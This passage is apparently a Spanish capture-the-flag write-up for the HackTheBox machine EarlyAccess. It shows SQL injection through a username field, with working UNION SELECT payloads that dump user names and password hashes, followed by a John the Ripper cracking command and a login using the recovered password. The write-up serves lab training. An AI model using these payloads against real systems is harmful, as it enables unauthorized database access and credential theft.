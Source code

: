 Recordemos que en el foro hablaban que había un error en la parte del scoreboard
relacionado con el nombre de usuario.
<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686605741/scoreboard_comment_nhpere.webp'
width={592}
height={296}
/>

Nos vamos a la pestaña de Perfil y añadimos una <i>'</i> al final de nuestro nombre
retornamos al scoreboard...
<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686605758/scoreboard_error_gxlxnq.webp'
width={1266}
height={277}
/>

Basado en la respuesta, añadimos un paréntesis al final, actualizamos nuestro
nombre de usuario <i>leonardo') -- -</i> y vemos que en el score no tenemos error
es una buena señal porque ahora podremos leer la DB.

Hay muchas formas de tener acceso basado en <i>SQL</i> nosotros usaremos la siguiente
lógica.

```powershell
leonardo') order by 3-- -

leonardo') union select 1, 2, database()-- -

leonardo') union select 1, 2, table_name from information_schema.tables where table_schema="db"-- -

leonardo') union select 1, 2, table_name from information_schema.tables where table_schema=0x6462-- -

leonardo') union select 1, 2, column_name from information_schema.columns where table_schema=0x6462 and table_name='users'-- -

leonardo') union select 1, 2, group_concat(name, 0x3a, password) from users-- -
```

<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686605786/passwords_yjhkov.webp'
width={1287}
height={357}
/>

Guardamos el texto en un archivo <i>hash.txt</i> para luego intentar romperlo con <a src='https://github.com/openwall/john' target='_blank'>jhon</a>.

```powershell
jhon --wordlist=/usr/share/wordlists/rockyou.txt hash
```

!SAS¡Iniciamos sesión en <i>https://dev.earlyaccess.htb/index.php</i> con la contraseña <i>gameover</i>.
